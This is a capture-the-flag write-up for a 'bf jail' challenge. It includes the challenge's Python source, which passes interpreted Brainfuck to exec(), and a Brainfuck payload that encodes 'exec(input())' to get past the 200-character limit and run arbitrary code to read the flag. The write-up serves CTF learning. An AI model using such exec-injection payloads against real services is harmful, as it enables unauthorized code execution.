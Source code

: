 ### bf jail [127]
**`author: dfoo`**
**Jail but with my best friend? That doesn’t sound too bad. Oh wait…**

**`nc chal.wwctf.com 6002`**

and we had a **`chall.py`** file with it which had:

```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output


if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```

Reading the code, we can understand that the challenge is letting the user inject some python code, but here is the tricky part, it need to be written with the brainfuck interpretation.

What you would like to do here is to simply list all the files and then read the file that has the flag. **BUT**, the author added a 200 chars max limit. and anything like:
```python
import os; print(os.listdir())
```
or:
```python
print(open("flag.txt").read())
```
Would exceed the 200 chars limit when written in Brainfuck

Going back to code, we can see that the author is calling a function called `**exec()**` to execute his code, so the trick here is we want to use that to open a window where we can push our code then **`exec()`** it too.

and here is what I tried:
```python
exec(input())
```
which is :
```brainfuck
--[----->+<]>-.[--->+<]>+.-[->+++<]>.--.[->+++<]>-.-----[->+++<]>.+++++.++.+++++.-.+[--->+<]>+.+..>++++++++++.
```
in Brainfuck and it is less then 200 chars (110).

and injecting that gave me an input window where i can simply put any code I want:
![Alt text](Pasted%20image%2020250728212010.png)
so, I just completed simply with:
![Alt text](Pasted%20image%2020250728212100.png)

Flag: `wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}`

